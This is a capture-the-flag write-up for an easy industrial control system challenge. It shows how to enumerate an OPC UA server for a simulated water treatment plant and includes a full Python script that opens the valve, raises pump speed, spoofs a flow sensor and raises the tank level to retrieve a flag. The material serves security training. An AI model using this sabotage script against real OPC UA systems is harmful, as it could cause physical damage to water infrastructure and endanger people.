





 <font size='10'>Floody</font>

19<sup>th</sup> April 2025

Prepared By: `r3dsh3rl0ck`

Challenge Author(s): `r3dsh3rl0ck`

Difficulty: <font color='green'>Easy</font>

<br><br><br><br><br><br>

# Synopsis (!)

- Understanding OPC UA protocol basics
- Enumerating OPC UA server nodes
- Manipulating industrial control system (ICS) variables
- Executing a sequential attack chain

## Description (!)

- Task Force Phoenix has identified a flaw in a water treatment plant supplying Volnaya’s government command center. Sabotage the facility to flood the complex and disrupt Operation Blackout by executing this sequence: 
    - Set the inlet valve to 100% open 
    - Increase pump speed to 1600 RPM
    - Spoof the flow sensor to 4 L/s
    - Raise the tank water level to 5m. 


## Skills Required (!)

- Basic knowledge of OPC UA client operations
- Familiarity with Python and the opcua library
- Understanding of ICS concepts (e.g., valves, pumps, sensors)
- Logical deduction for sequencing operations

## Skills Learned (!)

- Browsing OPC UA server nodes
- Reading and writing OPC UA variables
- Crafting an exploit for ICS sabotage
- Handling trial-and-error in attack chain sequencing

# Solution (!)

## Approaching the OPC UA Server

We’re tasked with exploiting an OPC UA server, controlling a water treatment plant. The server interface provides the following interface.



This output reveals:

The server is OPC UA, managing a water treatment plant under the main control object `2:WaterTreatmentPlant` in namespace 2.

It monitors Tank Level (meters), Pressure (bar), and Flow (liters/second), updating every ~3 seconds.

Without server code, we must enumerate nodes under `2:WaterTreatmentPlant` to identify controls and execute the attack. 

In OPC UA, nodes are organized hierarchically:

- Nodes represent objects (e.g., a pump), variables (e.g., speed), or other data.
- Objects group related nodes, like a folder.
- Variables hold readable/writable values (e.g., water level).
- Namespaces separate standard (namespace 0) and custom nodes (namespace 2 for the plant).

The root node is the hierarchy’s top, with `0:Objects` containing custom objects like `2:WaterTreatmentPlant`. The provided namespace simplifies navigation, pointing us directly to the plant’s controls.

## Enumerating Nodes

Using the `python-opcua` library, we connect to the server and enumerate nodes under 2:WaterTreatmentPlant, ash shown below

```python
nodes = {}
    for node in plant.get_children():
        node_name = node.get_browse_name().Name
        print(f"{node_name}:")
        for child in node.get_children():
            child_name = child.get_browse_name().Name
            try:
                value = child.get_value()
                print(f"  {child_name}: {value}")
                nodes[f"{node_name}/{child_name}"] = child
            except:
                pass
```

The result is shown below:



- Pump: Status (On/Off), Speed (RPM, likely pump control).
- Tank: WaterLevel (meters, matches Tank Level), Volume (liters).
- Valve: Status (Open/Closed), PercentOpen (0-100%, flow control).
- Sensors: Pressure (bar), FlowRate (L/s, matches Flow).
- Maintenance: SecretLog ("Null").

## Deducing the Attack Plan

The scenario specifies:

- Set Valve/PercentOpen to 100.0.
- Set Pump/Speed to 1600.0.
- Set Sensors/FlowRate to 4.0.
- Set Tank/WaterLevel to 5.0.

Out-of-order writes trigger server shutdowns, as seen in trial runs `Error: Unauthorized - Valve must be fully open`.




## Executing the Exploit

The exploit connects to the server, lists all nodes and their values under 2:WaterTreatmentPlant, sets the values in the specified order with confirmation messages, and reads the flag from the maintenance log.

```python
from opcua import Client
import time

url = "opc.tcp://127.0.0.1:4840"
client = Client(url)
try:
    client.connect()
    plant = client.get_root_node().get_child(["0:Objects", "2:WaterTreatmentPlant"])
    
    nodes = {}
    for node in plant.get_children():
        node_name = node.get_browse_name().Name
        print(f"{node_name}:")
        for child in node.get_children():
            child_name = child.get_browse_name().Name
            try:
                value = child.get_value()
                print(f"  {child_name}: {value}")
                nodes[f"{node_name}/{child_name}"] = child
            except:
                pass
    
    for key, value in [
        ("Valve/PercentOpen", 100.0),
        ("Pump/Speed", 1600.0),
        ("Sensors/FlowRate", 4.0),
        ("Tank/WaterLevel", 5.0)
    ]:
        node = nodes.get(key)
        if node:
            node.set_value(value)
            print(f"[+] Set {key} to {value}")
            time.sleep(3)
    
    flag_node = nodes.get("Maintenance/SecretLog")
    if flag_node:
        print(flag_node.get_value())
        
except Exception:
    pass
finally:
    client.disconnect()
```
With the help of our exploit we set the values as the plan requires 



After setting the correct values the response of the server inform us that the maintenace log is updated. 



Finally, we read the maintenace object. 
